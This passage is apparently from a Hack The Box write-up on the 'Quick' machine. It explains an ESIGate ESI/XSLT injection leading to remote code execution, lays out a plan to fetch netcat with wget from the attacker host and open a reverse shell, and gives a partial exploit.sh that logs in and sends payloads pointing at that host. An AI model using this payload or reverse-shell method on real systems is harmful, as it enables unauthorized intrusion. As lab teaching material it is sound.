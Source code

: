 Long story short, ESIGate is susceptible to a RCE [exploit](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/) through XSLT. Because ESIGate is also a caching server, we need to change the contents and the name of the files that we intend to load from our attacking machine.

Here's my game plan.

1. Send a copy of the traditional `nc` with `-c` and `-e` switches over using `wget` to `/tmp/nc`.
2. Set `/tmp/nc` executable with `chmod`.
3. Execute the reverse shell.

I wrote a simple shell script to facilitate this attack.

<div class="filename"><span>exploit.sh</span></div>

```bash
#!/bin/bash

HOST=quick.htb
PORT=9001
EMAIL=elisa@wink.co.uk
PASS='Quick4cc3$$'
COOKIE=$(mktemp -u)
RHOST=10.10.16.5
PAYLOAD=$(urlencode "<esi:include src=\"http://${RHOST}/X.txt\" stylesheet=\"http://${RHOST}/X.xsl\" />")
RHOST=10.10.16.5
RPORT=1234

# Login first
curl -s \
     -c ${COOKIE} \
     -d "email=${EMAIL}&password=${PASS}" \
     -o /dev/null \
     http://${HOST}:${PORT}/login.php

# Function to send payload
function send() {
local TKT=$(curl -s \
                 -b ${COOKIE} \
                 http://${HOST}:${PORT}/ticket.php \
            | grep -Eo '"TKT-[0-9]+"' \
            | tr -d '"')

curl -s \
     -b ${COOKIE} \
     -d "title=$1&msg=${PAYLOAD//X/$1}&id=${TKT}" \
     -o /dev/null \
     http://${HOST}:${PORT}/ticket.php

curl -s \
     -b ${COOKIE} \
     -o /dev/null \
     http://${HOST}:${PORT}/search.php?search=${TKT}
}

# Random filename
function random() {
    echo $(dd if=/dev/urandom count=4 bs=1 status=none | md5sum | cut -c1-8)
}

STEP1=$(random)
STEP2=$(random)
STEP3=$(random)

# Step 1: Send `nc' with `wget'
```

[1]: https://www.hackthebox.eu/home/machines/profile/244
[2]: https://www.hackthebox.eu/home/users/profile/13531
[3]: https://www.hackthebox.eu/